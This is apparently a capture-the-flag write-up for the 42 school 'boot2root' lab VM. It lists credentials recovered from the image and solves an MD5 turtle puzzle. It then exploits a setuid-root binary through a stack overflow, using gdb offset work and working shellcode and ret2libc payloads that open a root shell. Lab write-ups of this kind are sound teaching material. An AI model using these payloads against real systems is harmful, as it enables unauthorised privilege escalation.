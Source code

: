 # boot2root

<!--toc:start-->
- [boot2root](#boot2root)
  - [THOR Draw with turtle](#thor-draw-with-turtle)
  - [ZAZ Privilege escalation](#zaz-privilege-escalation)
    - [Exploit with shellcode](#exploit-with-shellcode)
    - [Exploit with ret2libc](#exploit-with-ret2libc)
<!--toc:end-->

Search for various means to pass root on the ISO given to you (42 project)

```txt
user mylittleforum:
lmezard:!q\]Ej?*5K5cy*AJ

mails:
admin@borntosec.net
qudevide@borntosec.net
thor@borntosec.net
wandre@borntosec.net
laurie@borntosec.net
zaz@borntosec.net

phpmyadmin:
root:Fg-'kKXBj87E:aJ$

ftp:
lmezard:G!@M6f4Eatau{sF"

ssh:
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135
zaz:646da671ca01bb5d84dbb5fb2238dc8e
```

<!-- TODO: fix link for file turtle and turtle script -->
## THOR Draw with turtle

In the thor home directory we can find a readme and a file named turtle.

```bash
thor@BornToSecHackMe:~$ cat README 
Finish this challenge and use the result as password for 'zaz' user.
```

The file turtle contain a list of move we need to do with
[turtle](https://docs.python.org/3/library/turtle.html) and finished with:

```bash
thor@BornToSecHackMe:~$ tail turtle
Avance 100 spaces
Recule 200 spaces
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Recule 200 spaces

Can you digest the message? :)
```

We create a [script](draw_turtle.py) to do the actions describes in the file
turtle and get this image:

![turtle](turtle.png)

The letters appear and we can see the word `SLASH`.

After some research we find a meaning for the last line:

- MD5 stand for Message-digest hashing algorithm

```bash
thor@BornToSecHackMe:~$ echo -n "SLASH" | md5sum
646da671ca01bb5d84dbb5fb2238dc8e  -
thor@BornToSecHackMe:~$ su zaz
Password: 
zaz@BornToSecHackMe:~$ id
uid=1005(zaz) gid=1005(zaz) groups=1005(zaz)
```

## ZAZ Privilege escalation

In the `zaz` home directory we can find a file named `exploit_me`.

```bash
zaz@BornToSecHackMe:~$ file exploit_me 
exploit_me: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x2457e2f88d6a21c3893bc48cb8f2584bcd39917e, not stripped
zaz@BornToSecHackMe:~$ ls -la exploit_me 
-rwsr-s--- 1 root zaz 4880 Oct  8  2015 exploit_me
```

It's a 32bits binary with setuid enable and is owned by root.
If we can execute some code it will be executed as if we were root.

Find offset of saved eip:

```bash
(gdb) r $(python -c 'print "A" * 64')
Starting program: /home/zaz/exploit_me $(python -c 'print "A" * 64')

Breakpoint 1, 0x0804842c in main ()
(gdb) x/32xw $esp
0xbffff680:     0xbffff690      0xbffff8e9      0x00000000      0x00000000
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6d0:     0x08048400      0x080496e8      0x00000002      0x080482dd
0xbffff6e0:     0xb7fd13e4      0x00100000      0x080496e8      0x08048461
0xbffff6f0:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
(gdb) i f
Stack level 0, frame at 0xbffff720:
 eip = 0x804842c in main; saved eip 0xb7e454d3
 Arglist at 0xbffff718, args: 
 Locals at 0xbffff718, Previous frame's sp is 0xbffff720
 Saved registers:
  ebp at 0xbffff718, eip at 0xbffff71c
(gdb) x/64xw $esp
0xbffff680:     0xbffff690      0xbffff8e9      0x00000000      0x00000000
0xbffff690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6d0:     0x08048400      0x080496e8      0x00000002      0x080482dd
0xbffff6e0:     0xb7fd13e4      0x00100000      0x080496e8      0x08048461
0xbffff6f0:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff700:     0xb7fed280      0x00000000      0x08048449      0xb7fd0ff4
0xbffff710:     0x08048440      0x00000000      0x00000000      0xb7e454d3
```

Buffer start at `0xbffff690` and eip start at `0xbffff71c`.

```bash
(gdb) p 0xbffff71c - 0xbffff690
$2 = 140
```

The offset is 140. We can exploit now.

### Exploit with shellcode

We can use a shellcode because the stack is executable:

```bash
zaz@BornToSecHackMe:~$ readelf -l exploit_me | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
```

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 62 + "\xbf\xff\xf6\x50"[::-1])')
1Ph//shh/bin°
             ̀1@̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP
$ id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```

### Exploit with ret2libc

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("A" * 140 + "\xb7\xe6\xb0\x60"[::-1] + "BBBB" + "\xb7\xf8\xcc\x58"[::-1])')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`BBBBX
$ id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
